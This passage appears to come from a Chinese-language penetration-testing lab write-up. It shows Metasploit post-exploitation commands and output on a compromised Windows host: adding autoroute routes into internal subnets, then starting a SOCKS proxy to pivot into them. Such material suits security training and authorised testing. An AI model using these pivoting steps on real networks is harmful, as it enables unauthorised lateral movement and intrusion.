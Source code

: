 > 手工添加：run autoroute -s 192.168.21.0/24		#添加路由
> 		 		run autoroute -p									#查看路由
> 自动添加：run post/multi/manage/autoroute

> 查看路由表：run autoroute -p

```
meterpreter > run post/multi/manage/autoroute

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: windows
[*] Running module against STU1
[*] Searching for subnets to autoroute.
[+] Route added to subnet 169.254.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 192.168.52.0/255.255.255.0 from host's routing table.
[+] Route added to subnet 192.168.220.0/255.255.255.0 from host's routing table.
meterpreter > run autoroute -p

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   169.254.0.0        255.255.0.0        Session 1
   192.168.52.0       255.255.255.0      Session 1
   192.168.220.0      255.255.255.0      Session 1
   
meterpreter > background 
[*] Backgrounding session 1...
```



然后配置代理

```bash
msf6 exploit(multi/handler) > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > show options 

Module options (auxiliary/server/socks_proxy):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   PASSWORD                   no        Proxy password for SOCKS5 listener
   SRVHOST   0.0.0.0          yes       The address to listen on
   SRVPORT   1080             yes       The port to listen on
   USERNAME                   no        Proxy username for SOCKS5 listener
   VERSION   5                yes       The SOCKS version to use (Accepted: 4a, 5)


Auxiliary action:

   Name   Description
   ----   -----------
   Proxy  Run a SOCKS proxy server


msf6 auxiliary(server/socks_proxy) > set srvhost 127.0.0.1
srvhost => 127.0.0.1
msf6 auxiliary(server/socks_proxy) > run
[*] Auxiliary module running as background job 0.

[*] Starting the SOCKS proxy server
```